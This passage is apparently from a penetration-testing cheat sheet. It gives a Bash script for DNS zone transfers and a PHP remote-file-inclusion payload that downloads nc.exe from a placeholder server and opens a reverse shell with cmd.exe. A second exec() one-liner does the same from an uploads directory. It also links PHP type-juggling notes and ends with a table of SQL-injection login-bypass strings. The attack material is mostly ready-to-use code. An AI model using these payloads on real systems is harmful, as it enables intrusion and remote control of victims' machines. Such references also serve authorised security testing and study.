 <span id="anchor-107"></span>Zone Transfer (Bash)

This script will locate the NS servers and attempt to use the “host”
command to perform a zone transfer.

```
#!/bin/bash
if [ -z "$1" ]; then
echo "You must enter an argument"
else
for nameserver in $(dig -t NS +noall +answer "$1" | grep "NS" | cut -f 5 | sed -e 's/\.*$//'); do
host -l $1 $nameserver | grep "has address" | cut -d " " -f 1,4
done
fi</p></td>
```

<span id="anchor-108"></span>PHP RFI Reverse Shell

This can be used in a RFI/LFI to download nc.exe from the specified
server then run it.

```
&lt;?php
        file_put_contents("nc.exe", fopen("http://<strong>&lt;server&gt;</strong>/nc.exe", 'r'));
        shell_exec("nc.exe -nv <strong>&lt;server&gt;</strong> <strong>&lt;port&gt;</strong> -e cmd.exe");
?&gt;</p></td>
```

Using exec() to change directories and run a file uploaded elsewhere.

```
&lt;?php exec('cd uploads && nc.exe -nv **&lt;server&gt; &lt;port&gt;** -e cmd.exe');?&gt;
```

<span id="anchor-109"></span>Type Juggling

<span id="anchor-110"></span>PHP Loose Comparison

-   [*https://www.php.net/manual/en/types.comparisons.php*](https://www.php.net/manual/en/types.comparisons.php)

<span id="anchor-111"></span>PHP String Conversions

PHP duplicated the string conversion method used by Unix's strtod
command. Using this type of string conversion with Loose comparisons
could lead to type juggling.

-   [*https://www.php.net/manual/en/language.types.string.php\#language.types.string.conversion*](https://www.php.net/manual/en/language.types.string.php#language.types.string.conversion)
-   [*http://manpages.ubuntu.com/manpages/bionic/pt/man3/strtod.3.html*](http://manpages.ubuntu.com/manpages/bionic/pt/man3/strtod.3.html)

<span id="anchor-112"></span>SQL Injection

<span id="anchor-113"></span>SQL Tests

|            |            |             |             |             |              |
|------------|------------|-------------|-------------|-------------|--------------|
| or 1=1     | 'or 1=1    | "or 1=1     | or 1=1-     | 'or 1=1-    | "or 1=1-     |
| or 1=1\#   | 'or 1=1\#  | "or         | 1=1\#       | or 1=1/\*   | 'or 1=1/\*   |
| "or 1=1/\* | or 1=1;%00 | 'or 1=1;%00 | "or 1=1;%00 | 'or'        | 'or          |
| 'or'-      | 'or-       | or a=a      | 'or a=a     | "or a=a     | or a=a-      |
| 'or a=a-   | "or a=a-   | or 'a'='a'  | 'or 'a'='a' | "or 'a'='a' | ')or('a'='a' |
| ")"a"="a"  | ')'a'='a   | 'or"='      | ' or 1=1--  | " or 1=1--  | or 1=1--     |
| " or 1=1\# |            |             |             |             |              |

